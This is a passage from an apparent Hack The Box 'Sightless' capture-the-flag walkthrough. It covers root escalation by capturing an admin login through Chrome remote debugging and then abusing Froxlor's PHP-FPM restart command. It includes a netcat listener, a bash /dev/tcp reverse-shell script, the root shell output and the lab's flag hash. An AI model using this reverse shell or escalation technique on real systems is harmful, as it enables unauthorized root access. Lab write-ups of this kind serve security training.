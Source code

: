 Pulling up chrome, we need to attempt to connnect to debug.  Enter chrome://inspect in the address bar and configure discovery targets.

![Chrome Inspect](chrome.inspect.png)

And we manage to capture our admin logging in to the Froxlor admin console.

![Chrome Inspect Results](chrome_inspect_results.png)

Logging into the admin panel we find it is v2.1.8 and running php-fpm.  It also happens to be running as root.

![Froxlor PHPFPM](froxlor_phpfpm.png)

Knowing this, maybe we can abuse the phpfpm restart command to gain access.  A reverse shell perhaps?  On our attack vm we set up the listener, and then attempt on the host by creating a new phpfpm version.  It looks like the restart command does sanitize the input to some extent, because we get an error when attempting to save.

```
┌──(root㉿kali)-[/home/kali/Downloads/HTB/Sightless]
└─# nc -nlvp 4444
listening on [any] 4444 ...

```

![Froxlor Shell Error](froxlor_shell_error.png)

Maybe if we save our command into a shell script and call that?

```
michael@sightless:~$ echo "bash &>/dev/tcp/10.10.14.116/4444 <&1" > revshell.sh
michael@sightless:~$ cat revshell.sh 
bash &>/dev/tcp/10.10.14.116/4444 <&1
michael@sightless:~$ chmod +x revshell.sh
```

![Froxlor Reverse shell](froxlor_reverse_shell_cmd.png)

Use the admin interface to disable and re-enable PHPFPM.

![Froxlor PHPFPM Restart](froxlor_phpfpm_restart.png)

Success!  We have our shell and flag.

```
┌──(root㉿kali)-[/home/kali/Downloads/HTB/Sightless]
└─# nc -nlvp 4444
listening on [any] 4444 ...


connect to [10.10.14.116] from (UNKNOWN) [10.10.11.32] 35142
whoami
root

pwd 
/root

ls
docker-volumes
root.txt
scripts

cat root.txt
de0e4f8649ddee7920359d820071d562
```